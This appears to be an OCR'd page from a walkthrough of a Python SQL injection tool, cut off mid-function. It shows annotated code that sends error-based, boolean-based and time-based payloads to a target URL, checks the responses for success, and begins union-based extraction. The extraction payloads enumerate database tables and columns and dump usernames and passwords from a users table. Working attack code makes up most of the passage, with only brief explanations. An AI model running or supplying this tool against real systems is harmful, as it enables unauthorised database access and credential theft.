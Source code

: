 ```python
                continue

    return list(set(vulnerable_types))
```
- **Purpose**: Tests SQL injection payloads on the target URL and identifies vulnerabilities.
- **Highlighted Lines**:
  - `requests.get` and `requests.post`: Send the payloads to the target.
  - `analyze_response`: Analyzes the server's response for success indicators.
  - `vulnerable_types.append(attack_type)`: Tracks successful attack types.
- **Return Value**: A list of vulnerable attack types.

---

### **analyze_response() Function**
```python
def analyze_response(response, attack_type, payload, full_payload):
    if attack_type == "error_based" and any(
        error in response.text.lower() for error in ["syntax error", "unclosed quotation mark", "unknown column"]
    ):
        print(f"[+] Vulnerability detected with payload: {payload}")
        log_result(full_payload, response.text)
        return True

    elif attack_type == "boolean_based" and "true" in response.text.lower():
        print(f"[+] Boolean-based injection succeeded: {payload}")
        log_result(full_payload, response.text)
        return True

    elif attack_type == "time_based" and response.elapsed.total_seconds() > 5:
        print(f"[+] Time-based injection succeeded: {payload}")
        log_result(full_payload, f"Delay: {response.elapsed.total_seconds()} seconds")
        return True

    print(f"[-] No success detected for payload: {payload}")
    return False
```
- **Purpose**: Analyzes server responses for success indicators.
- **Highlighted Lines**:
  - `any(error in response.text.lower()...)`: Checks for database-specific error messages.
  - `response.elapsed.total_seconds()`: Measures delay for time-based injections.
  - Returns `True` if a vulnerability is detected.

---

### **extract_data() Function**
```python
def extract_data(url, param, method, vulnerable_types, proxies):
    union_extraction_payloads = [
        "' UNION SELECT table_name, NULL FROM information_schema.tables --",
        "' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' --",
        "' UNION SELECT username, password FROM users --"
    ]

    if "union_based" in vulnerable_types:
        print("\n[+] Attempting data extraction using union-based injections...")
        for payload in union_extraction_payloads:
            try:
                if method == "GET":
                    injected_url = f"{url}?{param}={payload}"
                    response = requests.get(injected_url, timeout=10, proxies=proxies)
                elif method == "POST":
                    data = {param: payload}
```
